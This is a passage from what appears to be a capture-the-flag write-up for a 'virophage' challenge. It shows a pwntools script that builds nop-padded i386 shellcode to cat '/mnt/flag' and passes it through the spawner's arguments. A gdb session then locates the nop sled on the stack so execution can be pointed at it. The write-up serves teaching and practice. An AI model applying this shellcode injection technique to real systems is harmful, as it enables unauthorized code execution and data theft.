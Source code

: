 ```c
	".type _start, @function\n"
	"_start:\n"
	"	mov %rsp, %rdi\n"
	"	call virophage_start_main\n"
	"	hlt\n"
);
```

All arguments and environment variables that we pass to the spawner will be available on the stack.
Later, the virus is executed using the following parameters:

```c
_vp_sys_execve("/tmp/virus", argv, envp);
```

That means the virus will inherit all arguments and environment variables of the spawner. These will also be on the virus's stack.
We can pass a non-null shellcode as an argument for the spawner then point the entry address of the virus to it.
Padding some `nop` instructions before the actual shellcode will make it easier to identify on the stack.
I used the following script to generate a base64 encoded shellcode:

```python
from pwn import *

context.arch = 'i386'
context.os = 'linux'

print(b64e(asm(shellcraft.cat('/mnt/flag')).rjust(0x100, b'\x90')))
```

Save the output to `/home/user/arg`. Now attach the `gdb` to the spawner again and find where our shellcode is:

```
(gdb) file virophage
Reading symbols from virophage...
(gdb) r $(base64 -d /home/user/arg)
Starting program: /home/user/virophage $(base64 -d /home/user/arg)
Please enter a number in hex: 0x0
You entered: 0x00000000
execve...
process 123 is executing new program: /tmp/virus

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
(gdb) find $esp, +0x200, (int)0x90909090
0xffffde22
0xffffde23
0xffffde24
0xffffde25
0xffffde26
0xffffde27
0xffffde28
0xffffde29
0xffffde2a
0xffffde2b
0xffffde2c
0xffffde2d
0xffffde2e
0xffffde2f
0xffffde30
...
```
